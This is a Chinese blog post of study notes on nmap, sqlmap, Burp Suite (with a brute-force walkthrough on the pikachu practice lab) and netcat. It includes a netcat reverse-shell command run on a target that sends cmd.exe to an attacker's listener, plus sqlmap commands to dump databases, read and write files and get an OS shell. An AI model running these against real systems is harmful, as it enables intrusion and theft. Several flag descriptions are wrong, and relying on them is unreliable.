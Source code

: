 ```yaml
---
title: tools help
date: 2022-01-22 11:32:54
tags:
      - tools
      - 安全
      - nmap
categories:
description:
keywords:
---
```


# tools 

## nmap

nmap：一款端口扫描工具

使用方法以及参数如下

==在这里$ 代表ip或者url==

> nmap $
>
> - -v:显示详细信息
> - -p:指定端口
>   - -p 80,8080
> - -O:扫描目标是什么操作系统,使用的什么协议
> - -iL 文件:扫描指定文件的ip
> - -V:版本检测 用于扫描目标主机服务版本号. 探测打开的端口以确定服务/版本信息
> - -sA:综合模式扫描
> - -sS:安全模式扫描
> - -sL:list扫描
> - -sT:使用tcp扫描模式
> - -sF:快速扫描
> - -sR:RPC扫描
> - -sn:测试存活主机
> - -U:测试那些udp开放
> - -X:表示以xml的格式输出结果到以文件
> - -P:ping探测
> - -Pn:跳过主机存活扫描过程
> - -P0:ip检测协议是否开启
> - -T:设定模板(越高越快)
>
> 常用
>
> nmap -sS $
>
> nmap -sA -T 4 $



## SQLmap

一款sql注入测试工具



sqlmap -r 文件名

sqlmap -u url或者域名

哪个位置需要进行注入就在哪个位置加==\*==,如下

> sqlmap -u http://localhost/?id=111\*&kkk=aaa

这样就可以对id进行注入了(文件中也一样)

下面是常用命令

>- --dbs:获取所有的数库
>- --current-db:获取当前的数据库
>- --threads 10:开启10个线程
>- --data id=111&password=222:使用post提交,并且表单为id和password
>- --tables -D "库":获取指定数据库的所有表
>- --columns -T "表名称" -D "库名":获取指定库名的表中所有字段
>- --dump -T "表名称" -D "库名" -C "字段":获取指定按照指定的库名表名字段来获取数据库的数据
>- --cookie:使用cookie
>- --file-read"读取的文件夹位置":读取某个文件
>- --file-write "绝对路径":写入文件到某个绝对路径中
>- --batch:自动yes
>- --risk 3:执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
>- --referer "":使用referer欺骗
>- --user-agent "":自定义user-agent
>- --proxy "目标地址":使用代理注入
>-  -v  详细的等级(0-6)
>            0：只显示Python的回溯，错误和关键消息。
>            1：显示信息和警告消息。
>            2：显示调试消息。
>            3：有效载荷注入。
>            4：显示HTTP请求。
>            5：显示HTTP响应头。
>            6：显示HTTP响应页面的内容
>- --os-shell(需要绝对路径和语言):获取shell



## Burp



是一个数据包捕获软件

首先我们可以设置代理

![image-20220122160622437](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-1.png)

然后去浏览器设置代理以火狐为例子

去设置里面的高级---网络---代理

![image-20220122161034011](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-2.png)

然后安装协议首先访问http://burp

然后下载证书,然后进入设置,高级---证书---证书机构---导入   这样导入证书

![image-20220122161254985](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-3.png)



#### 使用本地的DNS

![image-20220122161507557](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-4.png)



选择这个打开dns服务器,然后就可以使用并看到结果了

![image-20220122161604192](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-5.png)



当我们抓取到数据后就可以进行参数设置,当我们进行post提交的时候有时需要进行编码的调整如:==%00需要被编码否则传输过程中可能会丢失,而且%00进行base64时会被丢失==



![image-20220122162024999](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-6.png)

Send to Intruder和Send to Repeater的时候不能选择东西否则只会进行选择部分的测试



#### 首先介绍一下Send to Intruder    暴力破解

pikaqiu靶场

暴力破解第一题

首先单击请求进行请求

![image-20220119151356569](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-7.png)

然后抓到包后ctrl+i

![image-20220119151545986](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-8.png)



然后进入如下模块并对破解点进行添加

![image-20220119151700990](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-9.png)



![image-20220119154920801](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-10.png)

设置一个type然后进入payloads

![image-20220119155535580](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-11.png)

设置线程数量

![image-20220119155617982](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-12.png)

设置正则获取页面数据

![image-20220119155652450](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-13.png)



单机add设置正则

![image-20220119155849551](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-14.png)



![image-20220119160023712](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-15.png)



设置每次攻击前重新获取token就要进行重定向

![image-20220119160133327](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-16.png)



## nc

一个进行远程命令控制的



黑客电脑的nc运行如下命令

nc -lvp [端口号]



靶机运行如下命令

nc -nv [ip] [端口] -e cmd.exe





>- -l:将nc监听模式运行
>- -k:接受一个请求不会结束而是继续监听
>-  
